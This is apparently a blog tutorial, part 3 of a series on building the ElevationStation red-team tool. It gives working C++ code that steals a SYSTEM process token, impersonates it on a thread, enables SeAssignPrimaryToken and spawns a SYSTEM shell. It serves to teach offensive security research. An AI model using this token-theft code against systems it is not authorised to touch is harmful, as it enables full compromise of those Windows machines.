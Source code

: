 ```yaml
---
title:  "ElevationStation - A walkthrough through the development process [PART 3]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hey, we made it to part 3 already!  Glad you are still hanging around and hopefully this part is as insightful and exciting to you as it was for me...er...I get excited very easily.  You may not get as hyped as I did but that's cool, I'll shutup now and we can get started 😆  This is my favorite part of the entire code behind elevationstation, and consequently the portion of my research into privilege escalation using token manip that took the longest to figure out 😜

For Part 3, will be discussing SYSTEM token manipulation involving execution threads... 

Our goal: 
-
Spawn a SYSTEM shell within our current shell, and not a separate shell like we did in PART 1.

The Dilemma
- 
Each process has a set of privileges either enabled by default or disabled.  If the privilege we need isn't listed, we can't enable it.  There's no adding it magically into the process' current primary token.  We just so happen to need a privilege that is **NOT** enabled by default in an administrative command shell:
**SE_ASSIGNPRIMARYTOKEN_NAME**

Here are the token privileges for our admninistrative / elevated cmd.exe.  See for yourself, that privilege doesn't exist:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/fb5c8af8-9eb8-4d0b-b986-fa4a4db5f08c)

Why do we even need this stupid privilege in the first place?  Because CreateProcessAsUser, which allows for spawning a cmd shell within the current console, **MUST** have this privilege enabled in almost all circumstances to execute a new process.  Check this out:

**CreateProcessAsUserA function (processthreadsapi.h)**

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c61852b-5e7c-481a-a81d-9d82e5bd6059)
[CreateProcessAsUser Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)

The absolutely infuriating aspect to all this is **CreateProcessWithToken** is VERY forgiving with required token privileges for spawning a new process.  
However, it has a "bug" which will not allow the spawning of a process within the current process.  In our case, a new cmd shell within our current cmd shell.
If ANYONE knows a way around this, please, speak up.  Inquiring minds need to know 🤔

The Solution!
-
Residing in our target process we wish to steal privs from lies the highly sought after privilege we so desperately need.  

`Step 1` - We need to steal & impersonate the process impersonation token from the target process with SYSTEM privileges
```cpp
int DupThreadToken(DWORD pid)
{
    setProcessPrivs(SE_DEBUG_NAME);
    remoteproc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
    if (remoteproc)
    {
        Color(2);
        wprintf(L"[+] Opened remote process!\n");
        Color(7);
    }
    else
    {
        Color(14);
        wprintf(L"[!] OpenProcess(). Error: %d\n", GetLastError());
        Color(7);
    }
    
   ➡️ if (!OpenProcessToken(remoteproc, TOKEN_IMPERSONATE | TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY, &tok2)) ⬅️
    {
        Color(14);
        wprintf(L"[!] OpenProcessToken(). Error: %d\n", GetLastError());
        Color(7);
    }
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2de0b57e-7b0f-4fc6-a4d2-923625e4992e)

Okay!  so now we have a handle to the process token for the target process, in this case it is **AppleMobleDeviceService.exe**, which is running as **NT AUTHORITY/SYSTEM**

Next up, we need to set the new token privs to our current process' execution thread.  I duplicate the impersonation token here to be on the safe side, but it may not be necessary. Either way, it works so no harm done.  So, dup the remote process token and then set the threadtoken to our current thread using `NULL`

```cpp
if (!DuplicateToken(tok2, SecurityImpersonation, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    if (SetThreadToken(NULL, hNewToken))
    {
        Color(2);
        printf("[+] Successfully set the thread token!\n");
        Color(7);
    }
```
We now have the remote process' privileges in our current process' execution thread!

<a href="https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/dad2d5f9-7b27-4838-8f16-a81385051aee">![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/dad2d5f9-7b27-4838-8f16-a81385051aee)</a>

Now that we hold the privileges of the SYSTEM process, let's enable the privilege we wanted in the first place!

```cpp
setThreadPrivs(SE_INCREASE_QUOTA_NAME);     //need this for CreateProcessAsUser!
setThreadPrivs(SE_ASSIGNPRIMARYTOKEN_NAME); //need this for CreateProcessAsUser!
```
<a href="https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2637214c-ab91-4c32-945a-52efcdcdf121">![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2637214c-ab91-4c32-945a-52efcdcdf121)</a>

Awesome, it's now enabled and I also went ahead and enabled SeIncreaseQuotaPrivilege too just in case.

We're almost there!  From here, we do some final magic and open a threadtoken against our current process now that we have all our privileges set, and duplicate that token to create a new primary token.  From there, we now finally have a handle to a brand new primary token that holds that privilege we needed from the **SYSTEM** process we stole it from!  All this just to spawn a shell within our current shell because this API is rude... 😠😆  Here's the code:
```cpp
 if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hSystemToken))
    {
        Color(14);
        wprintf(L"[!] OpenThreadToken(). Error: %d\n", GetLastError());
        Color(7);
    }
  if (!DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    bRet = CreateProcessAsUser(hSystemTokenDup, NULL, wszProcessName, NULL, NULL, TRUE, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessAsUser didn't cooperate...\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessAsUser worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);

    }
```
and the shell!

<a href="https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a446b774-b475-4c2c-aa82-45e96ff21db3">![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a446b774-b475-4c2c-aa82-45e96ff21db3)</a>

Okay, you can breathe.  It's over, you made it to the end. Well done.  I'm tired now so I'm going to bring this to a close.  Hopefully this made some sense and you learned how high maintenance some windows APIs can be. That said, we still managed to overcome our obstacle and pop that desired shell.  Until next time!

-RBC

